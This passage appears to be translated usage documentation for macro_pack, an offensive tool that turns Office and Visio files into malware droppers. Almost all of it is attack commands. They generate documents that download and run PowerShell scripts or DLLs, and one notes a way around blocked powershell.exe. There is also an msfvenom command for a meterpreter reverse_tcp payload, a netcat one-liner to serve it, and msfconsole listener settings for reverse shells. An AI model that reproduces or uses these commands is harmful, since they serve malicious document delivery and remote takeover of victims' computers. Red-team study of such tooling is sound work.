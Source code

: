#### DROPPER_PS
使用rundll32下载并执行Powershell脚本（绕过被阻止的powershell.exe）
```
echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -G powpow.doc
```

#### DROPPER_DLL
使用另一个扩展下载DLL并使用Office VBA运行它
```
REM Generate meterpreter dll payload
msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
REM Make it available on webserver, ex using netcat on port 6666
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
REM Create OFfice file which will download DLL and call it
REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
echo "http://192.168.0.5:6666/normal.html" Run | macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls
```
#### METERPRETER
模板提供监听msfconsole的IP和端口
```
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm
```
推荐的msfconsole选项
```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
set AutoRunScript post/windows/manage/migrate
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
exploit -j
```
#### WEBMETER
Meterpreter使用Cn33liz的VbsMeter reverse TCP模板
- 为此模板提供监听msfconsole的IP和端口
```
echo <ip> <port> | macro_pack.exe -t WEBMETER -o -G meter.vsd
```
- 推荐的msfconsole选项
```
set PAYLOAD windows/meterpreter/reverse_https (32bit)
set PAYLOAD windows/x64/meterpreter/reverse_https (64bit)
set AutoRunScript post/windows/manage/migrate
set LHOST <ip>
set LPORT <port>
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
exploit -j
```
